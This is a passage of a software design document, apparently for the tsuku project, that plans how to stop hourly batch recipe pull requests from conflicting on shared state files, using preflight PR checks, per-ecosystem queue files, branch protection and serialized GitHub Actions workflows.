

# Design: Batch PR Coordination and Conflict Prevention

## Status

Planned

## Implementation Issues

### Milestone: [Security and Baseline Cleanup](https://github.com/tsukumogami/tsuku/milestone/39)

| Issue | Dependencies | Tier |
|-------|--------------|------|
| ~~[#1498: chore(workflows): add CODEOWNERS for workflow and script protection](https://github.com/tsukumogami/tsuku/issues/1498)~~ | ~~None~~ | ~~simple~~ |
| _Establishes workflow protection by requiring 2+ reviews from designated teams for changes to workflow and script files. Prevents workflow injection attacks before implementing security token changes._ | | |
| ~~[#1499: chore(workflows): replace PAT with GitHub App token](https://github.com/tsukumogami/tsuku/issues/1499)~~ | ~~None~~ | ~~testable~~ |
| _Replaces long-lived PAT with GitHub App installation tokens that auto-rotate every 60 minutes, providing scoped permissions and audit trail integration. Reduces blast radius of credential compromise._ | | |
| ~~[#1500: chore(workflows): pin GitHub Actions to commit SHAs](https://github.com/tsukumogami/tsuku/issues/1500)~~ | ~~None~~ | ~~testable~~ |
| _Pins all third-party actions to immutable commit SHAs instead of mutable tags, preventing supply chain attacks where action maintainers could inject malicious code into tagged releases. Enables Dependabot for automated security updates._ | | |
| ~~[#1501: chore(scripts): add batch PR cleanup script](https://github.com/tsukumogami/tsuku/issues/1501)~~ | ~~None~~ | ~~testable~~ |
| _Creates one-time analysis script to safely resolve the 16+ conflicting batch PRs by identifying which recipes are already merged and which need rescue. Clears the backlog without losing unique recipes before implementing prevention mechanisms._ | | |

### Milestone: [PR Coordination and Workflow Serialization](https://github.com/tsukumogami/tsuku/milestone/40)

| Issue | Dependencies | Tier |
|-------|--------------|------|
| ~~[#1502: chore(workflows): add concurrency groups for queue and batch-control operations](https://github.com/tsukumogami/tsuku/issues/1502)~~ | ~~None~~ | ~~testable~~ |
| _Adds GitHub Actions concurrency groups to serialize workflows writing to the same state files. Prevents race conditions where concurrent runs could both read-modify-write shared files, causing lost updates or conflicts._ | | |
| ~~[#1503: chore(workflows): add git push retry logic with exponential backoff](https://github.com/tsukumogami/tsuku/issues/1503)~~ | ~~[#1502](https://github.com/tsukumogami/tsuku/issues/1502)~~ | ~~testable~~ |
| _Enhances all direct-to-main pushes with 3-attempt retry pattern and exponential backoff (2s, 4s, 8s delays). Handles transient conflicts when concurrency groups queue operations but pushes still occasionally collide._ | | |
| [#1504: feat(workflows): add preflight check to skip batch runs when PR exists](https://github.com/tsukumogami/tsuku/issues/1504) | None | testable |
| _Queries GitHub API for open batch PRs before creating new ones, skipping workflow execution if conflicts would occur. Prevents creating new conflicting PRs while existing ones await merge, maintaining hourly cron schedule without accumulating backlog._ | | |

### Milestone: [State File Refactoring and Branch Protection](https://github.com/tsukumogami/tsuku/milestone/41)

| Issue | Dependencies | Tier |
|-------|--------------|------|
| [#1505: refactor(cli): split priority queue by ecosystem](https://github.com/tsukumogami/tsuku/issues/1505) | [#1504](https://github.com/tsukumogami/tsuku/issues/1504) | testable |
| _Splits the monolithic 7000-line priority-queue.json into per-ecosystem files in data/queues/ directory. Enables per-ecosystem batch PRs to modify only their own queue files, eliminating cross-ecosystem conflicts. Requires preflight check first to prevent new conflicts during migration._ | | |
| [#1506: refactor(workflows): timestamp metrics and failures files](https://github.com/tsukumogami/tsuku/issues/1506) | [#1505](https://github.com/tsukumogami/tsuku/issues/1505) | testable |
| _Replaces append-only metrics and failure logs with timestamped files using ISO 8601 format. Each batch run writes its own file instead of appending to shared logs, eliminating 2 more conflict sources. Updates queue-analytics to aggregate across multiple files._ | | |
| [#1507: feat(workflows): add post-merge dashboard update workflow](https://github.com/tsukumogami/tsuku/issues/1507) | [#1506](https://github.com/tsukumogami/tsuku/issues/1506) | testable |
| _Creates update-dashboard.yml workflow triggered on push to main, moving dashboard generation from PR creation to post-merge. Dashboard reflects merged state within 60 seconds, eliminating the final conflict source caused by non-deterministic recomputation of speculative PR state._ | | |
| [#1508: chore(repo): enable branch protection with required checks](https://github.com/tsukumogami/tsuku/issues/1508) | [#1507](https://github.com/tsukumogami/tsuku/issues/1507) | simple |
| _Enables branch protection on main requiring 3 always-run checks (lint-workflows, check-artifacts, validate-recipe-structure). Enforces CI validation on all PRs and enables GitHub auto-merge for batch PRs. Final validation that all state refactoring changes work correctly with workflows writing to main._ | | |

### Dependency Graph



**Legend**: Green = done, Blue = ready, Yellow = blocked, Purple = needs-design

## Context and Problem Statement

The batch-generate workflow creates pull requests hourly to add newly-discovered recipes to the registry. These PRs modify both recipe files (which don't conflict) and shared state files that track queue status, metrics, failures, and operational control state.

When multiple batch runs execute before earlier PRs can merge, each PR modifies the same state files based on the state at PR creation time. Once any PR merges, all others immediately have merge conflicts on these state files, blocking further progress.

### Current State and Impact

As of February 5, 2026, there are 16+ open batch PRs (examples: #1467, #1468, #1470, #1476, #1477, #1480) all showing `mergeable: CONFLICTING` status despite having successful CI checks. All conflicts occur on the same set of state files:

- `data/priority-queue.json` - Package queue with 10,000+ entries
- `data/metrics/batch-runs.jsonl` - Append-only metrics log
- `data/failures/*.jsonl` - Per-ecosystem failure logs
- `website/pipeline/dashboard.json` - Pre-computed analytics
- `batch-control.json` - Circuit breaker operational state

**Quantified Impact** (as of Feb 5, 2026):
- **16 conflicting PRs** containing approximately 48 recipes total (3 per PR average)
- **3+ days of backlog** (oldest PR from Feb 2, newest from Feb 5)
- **600+ CI checks executed** across all PRs (each PR runs ~35 checks across platforms)
- **Manual intervention required** for every conflicting PR (estimated 10-15 minutes per PR = 3-4 hours total)
- **Recipe availability delay**: Recipes in conflicting PRs unavailable to users until manually resolved
- **Dashboard staleness**: Analytics reflect state from 3 days ago (last successful merge)

**Baseline "Do Nothing" Cost**:
If we accept the current state and rely on manual conflict resolution:
- **Ongoing effort**: 10-15 minutes per conflicting PR × hourly frequency = up to 4 hours/day manual work
- **User impact**: Recipes delayed by 24-72 hours average (time to manually resolve backlog)
- **CI waste**: ~100 checks per day executed on PRs that will conflict (runner cost ~$50/month)
- **Operational risk**: Manual conflict resolution can introduce errors in state files
- **Scaling**: Problem worsens as more ecosystems added (npm, pypi, cargo parallel batches multiply conflicts)

The automation was designed to eliminate manual recipe addition work. Accepting manual conflict resolution defeats the purpose and doesn't scale.

### Evolution of the Problem

**Phase 1 (Issue #1353, Feb 1)**: Auto-merge was added with `gh pr merge --auto --squash`, but this requires branch protection with required status checks to function. Without required checks configured, the auto-merge API call fails.

**Phase 2 (Issue #1401, Feb 2)**: A fallback to direct merge was added when auto-merge fails. This inadvertently bypassed all CI validation, allowing PRs to merge with failing checks.

**Phase 3 (PR #1458, Feb 4)**: The fix replaced auto-merge with explicit `gh pr checks --watch --fail-fast` to wait for all checks before merging. This solved the CI bypass problem but didn't address PR coordination.

**Current State**: The workflow waits for CI checks before merging, but doesn't prevent creating new PRs when older ones are pending. Each new PR conflicts with all previous ones, creating a backlog of unmergeable PRs.

### Root Causes

1. **No PR coordination**: The hourly cron creates PRs regardless of whether earlier batch PRs are still open
2. **Shared state files**: All batch runs modify the same 5 state files, guaranteeing conflicts
3. **Branch protection constraints**: Cannot enable branch protection because:
   - Other workflows (seed-queue, batch-operations) write directly to main
   - Making recipe-specific checks "required" would block non-recipe PRs
   - GitHub's model doesn't support "required if run" status checks

4. **State file architecture**: Files use patterns that conflict during concurrent modifications:
   - Full-file rewrites (priority-queue.json, dashboard.json)
   - Concurrent appends to same file (metrics, failures JSONL files)
   - Read-modify-write cycles (batch-control.json circuit breaker state)

### Scope

**In scope:**
- Preventing creation of conflicting batch PRs
- Resolving existing backlog of 16+ conflicting PRs
- Enabling branch protection without breaking existing workflows
- Refactoring state file architecture to reduce conflict surface
- Workflow coordination mechanisms

**Out of scope:**
- Complete CI/CD pipeline redesign
- Migration away from GitHub Actions
- Real-time collaboration features (this is batch automation)
- Manual PR workflows (those follow standard review process)

### Success Criteria

- Zero batch PRs with merge conflicts
- Branch protection enabled on main branch
- Workflows can still write necessary state to main
- Batch PRs merge automatically when CI passes
- Solution handles both scheduled and manual workflow triggers
- Backlog of 16+ conflicting PRs is resolved

## Decision Drivers

### Must Have
- **Prevent PR conflicts**: No batch PR should have merge conflicts on state files
- **Maintain automation velocity**: Hourly batch runs should continue unimpeded when healthy (rationale: new packages appear in upstream registries continuously; hourly cadence keeps recipe availability lag under 60 minutes average vs 12 hours with daily batches, directly impacting user experience for newly-released tools)
- **Respect CI validation**: All checks must pass before any PR merges
- **Support multiple ecosystems**: Homebrew, Cargo, npm, etc. can run independently
- **Enable branch protection**: Main branch should require review for sensitive changes
- **Backward compatibility**: Existing workflows must continue to function

### Should Have
- **Clear operational visibility**: Ability to see why batch runs are skipped/queued
- **Manual override capability**: Way to force batch run or bypass coordination
- **Audit trail**: Record of which PRs were created, merged, or skipped
- **Graceful degradation**: Coordination failures shouldn't block all batches permanently

### Could Have
- **Cross-ecosystem coordination**: Coordinate batches across different package ecosystems
- **Priority-based queueing**: Manual triggers take precedence over scheduled runs
- **Automatic backlog cleanup**: Detect and close stale conflicting PRs

### Won't Have (This Iteration)
- **Real-time state database**: Keep using git-based state for now
- **Complete refactor to monolithic workflow**: Maintain separate workflows
- **Removal of direct-to-main writes**: Some workflows genuinely need this

## Implementation Context

### Workflows That Write to Main

Four workflows bypass PRs and write directly to the main branch:

1. **batch-generate.yml** (Hourly + Manual)
   - Writes recipes via PR (with auto-merge)
   - Writes state files (batch-control, metrics, dashboard) directly when no recipes generated
   - **Justification**: State updates are operational, not requiring review

2. **seed-queue.yml** (Weekly + Manual)
   - Writes `data/priority-queue.json` with 1000+ package seeds from external registries
   - **Justification**: Deterministic data from package indexes, human review impractical

3. **batch-operations.yml** (Daily + Manual)
   - Writes `batch-control.json` (circuit breaker state)
   - **Justification**: Operational control file, needs atomic updates

4. **generate-golden-files.yml** (Manual opt-in)
   - Writes `testdata/golden/plans/*.json`
   - **Justification**: Developer convenience for test data generation

### State File Conflict Analysis

| File | Write Pattern | Conflict Type | Frequency | Writers |
|------|---------------|---------------|-----------|---------|
| priority-queue.json | Full-file rewrite | Content conflicts | High | seed-queue, batch-generate |
| batch-runs.jsonl | Concurrent append | EOF conflicts | Medium | batch-generate only |
| failures/*.jsonl | Concurrent append | EOF conflicts | Medium | batch-generate only |
| dashboard.json | Full recomputation | Content conflicts | High | batch-generate (via queue-analytics) |
| batch-control.json | Read-modify-write | Object conflicts | Low | batch-operations, batch-generate |

### GitHub Actions Coordination Mechanisms

**Currently Used:**
- **Concurrency groups**: batch-generate uses `concurrency: group: batch-generate` with `cancel-in-progress: false` (queues runs sequentially)
- **Circuit breaker**: batch-control.json tracks per-ecosystem failure rates with automatic recovery

**Available But Unused:**
- **workflow_run triggers**: Could chain workflows together
- **Repository dispatch**: Could coordinate across workflows
- **GitHub API queries**: Could check for open PRs before creating new ones
- **Artifacts**: Could pass state between jobs without committing

### Branch Protection Model

GitHub branch protection supports:
- **Required status checks**: Specific checks must pass before merging
- **Required reviews**: N reviewers must approve
- **Administrator bypass**: Admins or apps with elevated permissions can bypass
- **Status check restrictions**: Checks run on PR head, not merge commit

**Limitation**: Status checks are always-required or never-required. No native "required if run" pattern for conditional checks (like recipe-specific validation).

## Considered Options

This design requires decisions across four dimensions: how to prevent PR conflicts, how to structure state files, how to enable branch protection, and how workflows coordinate. Each dimension is analyzed independently.

### Decision 1: PR Coordination Strategy

The core problem is that batch-generate runs hourly and creates PRs regardless of whether earlier batch PRs are still open. Each new PR modifies the same state files, guaranteeing conflicts with all previous PRs. We need a mechanism to prevent creating conflicting PRs.

The coordination strategy determines WHEN the batch workflow should run and create PRs. This affects operational complexity, automation velocity, and the user experience when conflicts occur. The decision is constrained by GitHub Actions' scheduling model (cron triggers can't be dynamically paused) and the need to support both scheduled and manual triggers.

#### Chosen: Skip Run If Open PR Exists (Per-Ecosystem)

Add a preflight check at the start of the batch-generate workflow that queries for open batch PRs for the current ecosystem using `gh pr list`. If an open PR exists matching the title pattern `feat(recipes): add batch <ecosystem>` or labeled with `batch:<ecosystem>`, skip the entire workflow run with a notice annotation.

Implementation adds ~5-10 lines to batch-generate.yml:

```yaml
- name: Check for existing batch PR
  run: |
    ECOSYSTEM="${{ env.ECOSYSTEM }}"
    OPEN_PRS=$(gh pr list --search "is:open label:batch:${ECOSYSTEM}" --json number --jq 'length')
    if [ "$OPEN_PRS" -gt 0 ]; then
      echo "::notice::Skipping batch run - open PR exists for ${ECOSYSTEM}"
      exit 0
    fi
```

**Pros:**
- Simple implementation with minimal code changes
- Preserves hourly cron schedule (just skips execution)
- Per-ecosystem granularity allows different ecosystems to run concurrently
- Manual triggers can override by closing the open PR first
- No new infrastructure or state files needed

**Cons:**
- Doesn't resolve existing 16 conflicting PRs (separate cleanup needed)
- Relies on title/label convention (could break if naming changes)
- API call adds latency (~500ms) to every workflow run
- If a PR is stuck in review, blocks all future batches for that ecosystem

#### Alternatives Considered

**Do Nothing (Manual Coordination)**: Accept current state, document manual conflict resolution procedures. Continue hourly batch runs, manually resolve conflicts in PRs. Rejected because baseline analysis shows 3-4 hours/day ongoing manual effort (defeats automation purpose), recipe delays of 24-72 hours harm user experience, and approach doesn't scale as more ecosystems are added (linear increase in conflict rate).

**Reduce Batch Frequency to Daily**: Change cron from hourly to daily (`0 0 * * *`). Reduces conflict probability by reducing PR creation rate (24 ecosystem-days between PRs vs current 1 ecosystem-hour). Rejected because it increases average recipe availability lag from <1 hour to 12 hours (users waiting half a day for new tool releases), eliminates ability to quickly deploy high-priority recipes, and doesn't solve conflicts entirely (daily PRs can still conflict if reviews take >24 hours).

**Time-Sliced Ecosystem Scheduling**: Schedule batch runs sequentially by ecosystem (homebrew at :00, cargo at :15, npm at :30, pypi at :45). Ensures only one ecosystem's batch runs at a time, eliminating coordination needs. Rejected because it couples ecosystem independence (can't add new ecosystem without reshuffling schedule), creates arbitrary delays for each ecosystem (homebrew waits for pypi to finish if it runs long), and doesn't work for manual triggers (which ecosystem wins if two are triggered simultaneously?).

**Queue with State File**: Maintain `data/batch-queue.json` tracking which ecosystem has an open PR, updated when PRs are created/merged. Rejected because it creates another state file that workflows must modify, adding to the conflict surface instead of reducing it. Also requires coordination between PR creation and state updates, which itself could race.

**Wait for PR Merge**: Instead of skipping, wait in the workflow using `gh pr checks --watch` until the open PR merges, then proceed. Rejected because this blocks the GitHub Actions runner for potentially hours (average PR review time: 2-4 hours based on recent batch PRs; worst case: 24+ hours if reviewer unavailable). Runner cost: standard runners at $0.008/minute = $0.96-1.92 per blocked run × 24 runs/day = $23-46/day runner cost. Also creates complex timeout handling (what if PR never merges?) and wastes runner capacity that could be used for actual CI work.

**Concurrency Group Per-Ecosystem**: Change `concurrency: group: batch-generate` to `concurrency: group: batch-generate-${{ env.ECOSYSTEM }}`. This prevents concurrent runs of the same ecosystem but doesn't prevent a new run from starting after the previous completes (before its PR merges). Rejected because it addresses a different problem (simultaneous execution) rather than the core issue (PR coordination).

**Cancel Workflow on PR Conflict Detection**: Let the workflow run and create the PR, then detect merge conflicts via GitHub API and cancel the workflow retroactively. Rejected because the PR is already created (adds to backlog) and requires cleanup logic to close conflicting PRs automatically, which could inadvertently close legitimate PRs if detection logic has bugs.

### Decision 2: State File Architecture

The current architecture writes all state files in every batch PR, guaranteeing conflicts when multiple PRs exist. We need to redesign how state is stored and updated to eliminate or drastically reduce the conflict surface.

State files serve different purposes: operational control (batch-control.json), queue tracking (priority-queue.json), metrics/audit (batch-runs.jsonl, failures/*.jsonl), and analytics (dashboard.json). Each has different write patterns, update frequency, and readers. The decision affects both the conflict rate and the complexity of generating/consuming the data.

#### Chosen: Hybrid Approach - Split + Post-Merge Updates

Combine three tactics to eliminate different conflict sources:

1. **Split priority queue by ecosystem**: Change from single `data/priority-queue.json` to `data/queues/priority-queue-<ecosystem>.json`. Batch runs only modify their ecosystem's file, eliminating cross-ecosystem conflicts.

2. **Timestamp-based JSONL files**: Change from `data/metrics/batch-runs.jsonl` to `data/metrics/batch-runs-<timestamp>.jsonl` and similarly for failures. Each batch run writes its own file instead of appending, eliminating concurrent append conflicts. Dashboard aggregates across all files.

3. **Post-merge dashboard updates**: Move dashboard.json generation out of the PR and into a separate workflow triggered by `on: push` to main. This ensures the dashboard always reflects the merged state with no conflicts.

Implementation impact:
- Modify `cmd/batch-generate` to write `priority-queue-${ecosystem}.json`
- Modify `cmd/seed-queue` to read/write per-ecosystem queue files
- Modify `cmd/queue-analytics` to glob and aggregate `batch-runs-*.jsonl`
- Add new workflow `update-dashboard.yml` triggered on push to main
- Update batch-generate.yml to write timestamped metrics files

**Pros:**
- Eliminates 4 of 5 conflict sources (only batch-control.json remains)
- Reduces PR diff size (only ecosystem-specific state modified)
- Enables true parallel batch processing across ecosystems
- Timestamped files provide natural audit trail with immutable history
- Post-merge dashboard avoids non-deterministic recomputation issues

**Cons:**
- Requires changes to 3 Go commands (batch-generate, seed-queue, queue-analytics)
- Dashboard shows slightly stale data (reflects last merged PR, not pending PRs)
- More files in data/ directory (but enables easier cleanup of old metrics)
- Migration needed for existing priority-queue.json (split into per-ecosystem files)

#### Alternatives Considered

**Full-Database Migration**: Replace all state files with a PostgreSQL/SQLite database for transactional updates. Rejected because it's a massive architectural change requiring new infrastructure, significantly increases deployment complexity (need to run database), and doesn't integrate well with git-based audit trail that current design relies on.

**Append-Only Everything**: Change priority-queue.json and batch-control.json to append-only JSONL files where each line is a delta/event. Rejected because it makes reading the current state expensive (must replay all events), adds complexity to every consumer, and doesn't actually prevent conflicts (concurrent appends to the same JSONL file still conflict at EOF).

**External Storage (S3/R2)**: Move state files to Cloudflare R2 (already used for golden files). Workflows read/write via API instead of git commits. Rejected because it removes the audit trail from git history, requires managing API credentials for all workflows, and doesn't solve conflicts (concurrent API writes still need locking/versioning).

**Lock File Pattern**: Use `.batch-lock` file that workflows create before modifying state, delete after commit. Other workflows wait for lock release. Rejected because GitHub Actions doesn't guarantee atomic file operations (concurrent git pushes can both succeed if not conflicting), lock cleanup on workflow failure is unreliable, and it serializes all state writes unnecessarily.

**Keep Single Queue, Split Metrics**: Only split batch-runs/failures by timestamp, keep priority-queue.json as single file. Rejected because priority-queue.json is the highest-conflict file (10,000+ lines, modified by both seed-queue and batch-generate), so keeping it monolithic doesn't solve the primary conflict source.

### Decision 3: Branch Protection Strategy

GitHub requires status checks to be marked "required" in branch protection rules, but tsuku has 41 separate validation workflows. Making all recipe-specific checks required would block PRs that don't modify recipes (like documentation updates). We need a way to enable branch protection without breaking unrelated PRs.

Branch protection is essential for security (prevents direct pushes bypassing review) and enables GitHub's auto-merge feature (which requires branch protection to function). The decision affects both automated batch PRs and manual contributor PRs.

#### Chosen: Required Checks with Path Filters

Enable branch protection on main with a minimal set of required checks that run on ALL PRs:
- `lint-workflows` (always runs)
- `check-artifacts` (always runs)
- `validate-recipe-structure` (always runs)

Recipe-specific validation checks (like `Validate: swiftformat`) remain optional. They run when recipes change but don't block unrelated PRs.

For batch PRs specifically, continue using `gh pr checks --watch --fail-fast` which waits for ALL checks (required + optional) before merging. This gives batch PRs stricter validation than required while not blocking other PRs.

Enable branch protection settings:
- Require status checks: lint-workflows, check-artifacts, validate-recipe-structure
- Require branches to be up to date before merging (forces rebase)
- Allow administrators to bypass (for emergency fixes)
- Do NOT restrict who can push to main (workflows need write access)

**Pros:**
- Enables GitHub auto-merge for batch PRs (requires branch protection)
- Blocks direct pushes to main for sensitive files
- Doesn't break unrelated PRs (only 3 checks always-required)
- Batch PRs still wait for all checks via explicit `gh pr checks` call
- Standard GitHub feature, well-understood by contributors

**Cons:**
- Workflows writing to main must have appropriate permissions (already do)
- Rebase requirement can fail if many PRs are queued (mitigated by Decision 1's skip logic)
- Administrators can bypass, reducing security if credentials compromised

#### Alternatives Considered

**CODEOWNERS with Required Reviews + Bot Auto-Approval**: Define `CODEOWNERS` file requiring review for `data/**` paths. Batch PRs get auto-approved instantly by a bot account via separate workflow triggered on PR creation. Rejected after deeper analysis because: (1) bot approval workflow adds 30-60 seconds latency per PR (workflow startup + GitHub API approval call), (2) requires managing bot account credentials and permissions, (3) doesn't prevent CI bypass since required reviews block merge but don't enforce check status, (4) creates failure mode if bot workflow fails (PR stuck waiting for approval), and (5) GitHub's branch protection for reviews works differently than status checks (can't require reviews conditionally by path in practice).

**No Branch Protection + Pre-Merge Validation**: Keep branch protection disabled, rely entirely on workflow logic (`gh pr checks --watch`) to prevent bad merges. Rejected because it doesn't prevent direct pushes to main bypassing CI, doesn't enable GitHub auto-merge feature, and makes repository less secure against compromised credentials.

**Required If Modified Path Filter**: Use GitHub Actions path filters to make checks conditionally required. Rejected because GitHub branch protection doesn't support conditional requirements - a check is either always-required or never-required. Path filters work in workflow triggers but not in protection rules.

**Separate Protected Branch**: Create `protected-main` branch with strict protection, merge PRs there, then fast-forward main automatically. Rejected because it adds complexity (two branches to track), confuses contributors (which branch to target?), and doesn't actually solve the problem (protected-main still has the same conflict issues).

**Status Check Rollup Job**: Create a single "all-checks-pass" job that runs in batch-generate workflow after all other workflows complete, mark only that as required. Rejected because it requires cross-workflow coordination (batch workflow must wait for all 41 other workflows), adds significant latency (batch run blocks until slowest check completes), and doesn't work for manual PRs (they don't trigger batch workflow).

### Decision 4: Workflow Coordination Mechanism

Even with Decision 1's skip logic, we need workflows to coordinate when writing to main outside of PRs (seed-queue, batch-operations). Currently they can run concurrently and cause race conditions on shared files. We need a coordination mechanism that serializes conflicting operations.

Coordination affects reliability (preventing race conditions), automation velocity (don't over-serialize), and operational complexity (how to debug/monitor coordination). The decision is constrained by GitHub Actions' lack of native locking primitives and the need to work across both scheduled and manual triggers.

#### Chosen: Enhanced Concurrency Groups with Retry Logic

Extend the existing concurrency groups to cover all workflows that modify the same state files, and add retry logic with exponential backoff when git push fails due to concurrent modifications.

**Implementation:**

1. Add shared concurrency group for queue operations:
```yaml
# In batch-generate.yml, seed-queue.yml
concurrency:
  group: queue-operations
  cancel-in-progress: false
```

2. Add shared concurrency group for batch control:
```yaml
# In batch-operations.yml, batch-generate.yml
concurrency:
  group: batch-control
  cancel-in-progress: false
```

3. Enhance git push with retry logic (pattern already exists in batch-operations.yml):
```bash
for attempt in {1..3}; do
  if git pull --rebase && git push; then
    break
  else
    echo "Push failed (attempt $attempt/3), retrying..."
    sleep $((2 ** attempt))
  fi
done
```

**Pros:**
- Builds on existing concurrency group pattern (already proven)
- No new infrastructure or state files needed
- Serializes conflicting operations naturally (queues in GitHub Actions)
- Retry logic handles transient race conditions gracefully
- Works for both scheduled and manual triggers

**Cons:**
- Queued workflows can experience delays (up to 2 hours if batch run takes long)
- Doesn't prevent conflicts, just queues operations (relies on Decision 2's file splits)
- Manual trigger can't jump the queue (waits behind scheduled runs)

#### Alternatives Considered

**Distributed Lock via Git Commits**: Create/delete `.lock` files in git to coordinate. Rejected because git commits aren't atomic operations (two workflows can both commit and push successfully if changes don't conflict), lock cleanup on workflow failure is unreliable, and it adds unnecessary commits to git history.

**External Lock Service**: Use GitHub Actions artifact as a lock (create artifact = acquire lock, delete = release). Rejected because artifacts can't be atomically created/deleted from concurrent workflows, have eventual consistency issues, and add unnecessary complexity for a problem solvable with concurrency groups.

**Workflow Dependencies (workflow_run)**: Chain workflows using `on: workflow_run` triggers so batch-operations runs after seed-queue completes. Rejected because it creates rigid ordering (what if we want them independent sometimes?), doesn't handle scheduled vs manual trigger priority, and makes debugging harder (must trace through workflow chain).

**Manual Mutex in State File**: Add `locked_by` field to batch-control.json that workflows check/set. Rejected because reading, checking, and updating the file isn't atomic (classic TOCTOU race condition), lock cleanup on failure is unreliable, and it uses the file system for coordination which has consistency issues.

**API-Based Coordination**: Use GitHub API to check if other workflows are running before starting. Rejected because the API doesn't expose concurrency group state, checking `in_progress` workflows is a race condition (workflow can start between check and commit), and it adds API call latency to every workflow.

### Assumptions and Constraints

The following assumptions underlie the chosen options and rejection rationale:

**Technical Assumptions:**
- GitHub Actions concurrency groups serialize workflow runs reliably (no race conditions in queuing)
- `gh pr list` API calls complete in <1 second (adds acceptable latency to workflow startup)
- Git push with retry (3 attempts with exponential backoff) succeeds >99% of the time
- GitHub branch protection rules are respected by all automation (no bypass via API bugs)
- Splitting priority-queue.json by ecosystem doesn't exceed filesystem limits (dozens of files, not thousands)

**Organizational Assumptions:**
- Manual capacity exists for one-time backlog cleanup (1-2 hours of human time)
- Hourly batch automation provides measurable user value vs daily (recipe availability lag matters)
- Git-based state is preferable to external storage for audit trail and simplicity

**Timeline Assumptions:**
- All 5 decisions can be implemented incrementally (not all-or-nothing)
- State file architecture changes (Decision 2) are backward compatible (old code can read new format during migration)
- Branch protection (Decision 3) can be enabled without breaking existing PRs in flight

**Failure Mode Assumptions:**
- If PR detection fails (API error), workflow continues normally (fail-open, not fail-closed)
- If post-merge dashboard workflow fails, stale dashboard is acceptable (eventual consistency)
- If concurrency group queuing delays exceed 2 hours, manual intervention is acceptable

These assumptions will be validated during implementation and may require revisiting if proven incorrect.

### Decision 5: Backlog Cleanup Strategy

There are currently 16+ open batch PRs with merge conflicts. The previous decisions prevent creating NEW conflicting PRs, but we need a strategy for resolving the existing backlog.

The cleanup strategy affects automation velocity (how quickly we return to normal operations), data integrity (ensuring no valid recipes are lost), and operational risk (automated cleanup could close wrong PRs). The decision must balance speed of cleanup with safety and auditability.

#### Chosen: Manual Review with Automated Assistance

Create a one-time cleanup script that analyzes each conflicting PR, extracts the recipes it adds, and provides recommendations. Human operator reviews recommendations and approves batch closure.

**Implementation:**

1. Script analyzes each open batch PR:
   - Extract recipe names and versions from diff
   - Check if recipes already exist in main (merged via another PR)
   - Identify any unique recipes not yet merged
   - Generate report with recommendation (close vs rescue)

2. Human operator reviews report and decides:
   - Close PRs where all recipes are already in main
   - For PRs with unique recipes, extract and create new PR
   - Update batch-control.json to reflect cleanup

3. Script executes approved actions:
   - Close PRs with comment explaining cleanup
   - Create consolidated PR for any rescued recipes

**Pros:**
- Safe - human review prevents accidental data loss
- Comprehensive - captures unique recipes from conflicting PRs
- Auditable - script output provides record of decision rationale
- One-time operation - complexity doesn't add to ongoing maintenance

**Cons:**
- Requires manual effort (estimated 1-2 hours)
- Delays return to normal operations (but only once)
- Risk of human error in review (mitigated by script recommendations)

#### Alternatives Considered

**Fully Automated Closure**: Script automatically closes all conflicting PRs older than 48 hours. Rejected because it risks losing valid recipes that haven't been merged elsewhere, provides no mechanism to rescue unique recipes, and could close PRs that are in active review.

**Merge Conflict Resolution**: Automatically resolve conflicts by accepting "theirs" for all state files (priority-queue.json, etc.). Rejected because it requires rebasing each PR which triggers new CI runs (waste of CI time), doesn't guarantee the state files will be consistent after merge (could have stale data), and still requires human validation.

**Close All and Regenerate**: Close all 16 PRs, run batch-generate manually with larger batch size to recapture all recipes at once. Rejected because it loses the audit trail of which recipes were added when, risks missing recipes if the source queue data has changed since, and creates a single giant PR that's harder to review.

**Leave As-Is**: Accept that these PRs will remain open until manually cleaned up. Rejected because they clutter the PR list, create confusion for contributors (which PRs are active?), and provide a poor signal in GitHub Insights metrics (inflated open PR count).

**Rebase Each PR**: Manually rebase each of the 16 PRs onto current main one at a time. Rejected because it's extremely time-consuming (each rebase triggers full CI), doesn't solve the underlying problem (PRs will conflict again when the next one merges), and consumes excessive CI runner minutes.

## Decision Outcome

**Chosen: 1 (Skip If Open PR) + 2 (Hybrid Split/Post-Merge) + 3 (Required Checks with Path Filters) + 4 (Enhanced Concurrency) + 5 (Manual Review Cleanup)**

### Summary

The solution combines five coordinated changes to eliminate batch PR conflicts while maintaining hourly automation velocity and enabling branch protection.

**PR Coordination (Decision 1)**: Add a preflight check to batch-generate.yml that queries for open batch PRs using `gh pr list --label batch:<ecosystem>`. If an open PR exists for the current ecosystem, skip workflow execution with a notice. This prevents creating new conflicting PRs while allowing different ecosystems to run concurrently. The check adds <1 second latency and requires adding `batch:<ecosystem>` labels to PRs.

**State Architecture Refactoring (Decision 2)**: Eliminate 4 of 5 conflict sources through targeted changes:
